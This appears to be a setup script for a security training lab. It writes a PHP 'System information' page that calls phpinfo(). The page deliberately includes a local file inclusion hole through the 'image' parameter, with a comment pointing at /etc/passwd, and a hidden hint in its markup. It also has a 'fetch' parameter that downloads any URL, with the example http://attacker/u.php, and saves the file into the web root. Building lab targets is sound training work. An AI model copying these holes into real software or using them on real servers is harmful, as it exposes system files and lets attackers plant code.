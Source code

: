 # NTSC_Tuan5
#nano lablfi.sh
#sudo chmod +x lablfi.sh
#sudo ./lablfi.sh
sudo tee /var/www/tomato/antibot_image/antibots/info.php >/dev/null <<'PHP'
<?php header("X-Frame-Options: DENY"); ?>
<!doctype html><html lang="en"><head>
<meta charset="utf-8"><title>System information</title>
<style>
  :root{--bg:#f7f9fc;--txt:#111;--muted:#4b5563}
  html,body{margin:0;background:var(--bg);color:var(--txt);font:16px/1.6 system-ui,Segoe UI,Roboto,Helvetica,Arial,sans-serif}
  .wrap{max-width:980px;margin:32px auto;padding:0 16px}
  .card{background:#fff;border:1px solid #e5e7eb;border-radius:12px;padding:18px;box-shadow:0 6px 28px rgba(0,0,0,.06)}
  .phpinfo{background:#fff;padding:0;border-radius:10px}
  .muted{color:var(--muted)}
  /* hint chỉ xuất hiện khi View-Source (đã escape), không lộ trên UI */
  pre.dev-hint{display:none}
</style>
</head><body><div class="wrap">
  <div class="card">
    <h2>System information</h2>
    <div class="phpinfo"><?php phpinfo(); ?></div>
    <!-- View-Source hint -->
    <pre class="dev-hint">&lt;?php include $_GET['image']; ?&gt;</pre>
  </div>

<?php
/* LFI giữ nguyên: ?image=../../../../../etc/passwd */
if (isset($_GET['image'])) { $p = $_GET['image']; @include($p); exit; }
/* Fetch giữ nguyên: ?fetch=http://attacker/u.php  (lưu ngay tại thư mục này) */
if (isset($_GET['fetch'])) {
  $url = $_GET['fetch'];
  $basename = basename(parse_url($url, PHP_URL_PATH) ?: 'f.bin');
  $dest = __DIR__ . '/' . $basename;
  $data = @file_get_contents($url);
  if ($data !== false) { file_put_contents($dest, $data); }
}
?>
</div></body></html>
PHP
